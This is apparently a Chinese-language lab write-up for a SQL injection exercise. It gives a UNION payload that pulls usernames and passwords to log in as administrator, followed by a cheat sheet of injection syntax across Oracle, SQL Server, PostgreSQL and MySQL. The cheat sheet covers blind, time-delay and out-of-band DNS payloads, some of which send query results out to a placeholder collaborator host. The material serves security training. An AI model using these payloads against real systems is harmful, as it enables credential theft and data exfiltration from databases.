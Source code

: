 # 题意
![](pic/3-2.png)
该题与上一题基本一致，也是用administrator登录即可。
# 解题思路
思路也与上一题一致，只有payload需要改动：

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
需要这样改动的原因:


与上一题不同的是，这一题的返回查询中虽然列数也是两列，但是只有第二列与string类型兼容，第一列不兼容。因此，作为payload的sql语句中需要实现一个列返回多列数据。


结果：
![](pic/res.png)
# 知识点

## sql注入常用语法
### 字符串串联
将多个字符串串联成一个

<u>Oracle  'foo'||'bar'</u>

<u>Microsoft  'foo'||'bar'</u>

<u>PostgreSQL 'foo'||'bar'</u>

<u>MySQL 'foo' 'bar'(空格)   CONCAT('foo','bar')</u>


### 子串
按照指定的偏移量提取子串

<u>Oracle SUBSTR('foobar',4,2)</u>

<u>Microsoft SUBSTRING('foobar',4,2)</u>

<u>PostgreSQL SUBSTRING('foobar',4,2)</u>

<u>MySQL SUBSTRING('foobar',4,2) </u>


以上语句都返回字符串'ba'


### 注释
<u>Oracle --</u>

<u>Microsoft -- 或者 /* */</u>

<u>PostgreSQL-- 或者/* */</u>

<u>MySQL #或者-- （注意空格）或者/* */</u>

### 数据库版本
![](pic/dbversion.png)
### 数据库内容
列出数据库中存在的表，以及表包含的列

<u> Oracle SELECT * FROM all_tables</u>
<u> SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</u>

<u>Microsoft SELECT * FROM information_schema.tables
    SELECT * FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'
</u>

<u>PostgreSQL SELECT * FROM information_schema.tables   SELECT
*FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'
</u>

<u>MySQL SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'</u>

### 条件错误
设置一个bool条件并且在条件为真时触发一个数据库错误
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

### 批处理查询 
批处理查询用来执行多条查询语句。注意当执行后续语句时，不会向应用程序返回执行结果。因此该技术主要是用在盲注，可以用另一句查询语句来出发DNS lookup、条件错误、或者延迟等。
```
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```
注意，一般来说批处理查询不能用于MySQL的SQL注入，除非目标程序使用特定的PHP或者Python API来跟mysql数据库交互。

### 延迟
当语句执行时造成延时
```
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```
Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

### 条件延时
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
### DNS解析
让数据库进行一次对额外域名的DNS解析。为此，需要用Burp Collaborator来生成一个独特的子域名，并且轮询Collaborator 服务器来确认DNS解析是否发生。
```
Oracle	
利用XXE来出发DNS解析。虽然XXE被修复了但是还有许多未补丁的Oracle安装版本存在。
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

以下技术对完全补丁的Oracle也适用，但是需要提权。
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	只适用于windows:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### 带数据泄露的DNS解析

```
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'  
```
